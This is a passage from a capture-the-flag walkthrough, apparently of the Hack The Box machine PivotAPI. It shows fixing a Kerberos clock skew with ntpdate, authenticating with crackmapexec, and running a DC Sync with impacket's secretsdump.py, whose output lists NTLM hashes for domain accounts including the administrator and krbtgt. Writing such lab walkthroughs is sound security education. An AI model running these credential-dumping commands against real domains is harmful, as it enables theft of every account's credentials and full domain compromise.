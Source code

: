 `ntpdate -u [ip]` will update my local system time to that of the server at the given IP. Some tricks that I found useful:
- Changing the time this way seemed to kill my VPN connection. I lost some frustrating time not realizing I wasn’t connected any more. A quick reconnection after changing the time fixed that.
- VirtualBox is constantly trying to sync it’s guest VMs with the host time. I had to turn off the service on my host to get it to stop that. On my Ubuntu host, that was `sudo service virtualbox-guest-utils stop`.

Once I run that, it updates my clock:

```

oxdf@parrot$ sudo ntpdate -u 10.10.10.240
 7 Nov 16:31:39 ntpdate[484337]: step time server 10.10.10.240 offset +557.901133 sec

```

Now I can `crackmapexec`:

```

oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\PIVOTAPI$ 

```

#### Hashes

With the time offset fixed, I can DC Sync:

```

oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k                                                          
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets                            
Administrador:500:aad3b435b51404eeaad3b435b51404ee:efbb8ce4a3ea4cdd0377e13a6fe9e37e:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3fc8c66f79c15020a2c2c7f1cffd8049:::
cybervaca:1000:aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef:::
LicorDeBellota.htb\3v4Si0N:1107:aad3b435b51404eeaad3b435b51404ee:bcc9e3e5704ae1c7a91cbef273ff23e5:::
LicorDeBellota.htb\Kaorz:1109:aad3b435b51404eeaad3b435b51404ee:9c26ac73552428b4b624e7fbcc720b85:::
LicorDeBellota.htb\jari:1116:aad3b435b51404eeaad3b435b51404ee:139fcd90ef171f43ef5b48025f773848:::
LicorDeBellota.htb\superfume:1117:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
LicorDeBellota.htb\Dr.Zaiuss:1118:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
...[snip]...

```
